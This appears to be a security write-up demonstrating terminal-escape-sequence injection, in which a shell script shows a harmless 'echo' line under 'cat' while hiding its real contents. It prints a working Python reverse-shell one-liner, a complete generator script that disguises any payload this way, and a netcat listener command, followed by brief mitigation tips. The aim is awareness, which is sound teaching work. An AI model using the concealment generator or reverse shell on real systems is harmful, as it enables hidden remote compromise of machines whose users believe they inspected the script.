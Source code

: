 **Users frequently execute scripts without examining their contents, thereby exposing themselves to potential unintended consequences or security risks.**

Downloading and executing scripts such as

```bash
$ sh -c '$(curl -fsSL https://raw.github.com/ohmyzsh/ohmyzsh/master/tools/install.sh)'
```

It is recommended to always check what is inside of the script.

How many times have you run the script, checking it superficially with a “cat” command beforehand? What if you’ve done that, and still managed to accidentally run malware on the machine?

## Terminal Injection

**“A terminal escape sequence is a special sequence of characters that is printed (like any other text). But, if the terminal understands the sequence, it won’t display the character-sequence, but will perform some action.”

### _Impostor:_

```bash
echo -n Hello there! This is todays date: $(date)
```

### _Payload:_

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### _Generator:_

```python
#!/usr/bin/python 
import sys  

DELETE_CHAR = "\x7F" 
NEWLINE_CHAR = '\x0a'

def read_file(file):
  with open(file) as file_handle:
    return "".join(file_handle.readlines())  

def move_lines_up(line_count):
  return "\033[" + str(line_count) + "A"
   
def move_to_line_beginning():     
  return "\033[F"
  
def build_executable(impostor, shellcode):
  executable = shellcode
  executable += move_lines_up(shellcode.count(NEWLINE_CHAR) + 1)
  executable += move_to_line_beginning()
  executable += impostor + DELETE_CHAR * (len(shellcode) - len(impostor))     
  return executable
    
def main():    
  shellcode = read_file(sys.argv[1])    
  impostor = read_file(sys.argv[2])
  
  executable = build_executable(impostor, shellcode) 
      
  with open('./poc.sh', 'w') as file:       
    file.write(executable)  
  
if __name__ == "__main__":     
  main()
```

Now as we generate our script with hidden characters, let’s check what is inside using “cat” command.

```bash
$ cat ./poc.sh

echo -n Hello there! This is todays date: $(date)
```

Seems like nothing special. Let’s start the listener and run the script.

```bash
nc -lvnp 9999 & chmod 755 poc.sh && ./poc.sh
```

![](images/poc.gif)

### _**We just executed arbitrary, hidden code, resulting in a compromise of the machine.**_

## Mitigation

To prevent this, use: 
```bash
- Command cat with -v parameter displays non-printing characters 
- Command more will reveal non printing characters in Windows environment 
- In Powershell use commandlet Write-Output
```

**Stay safe!**

K.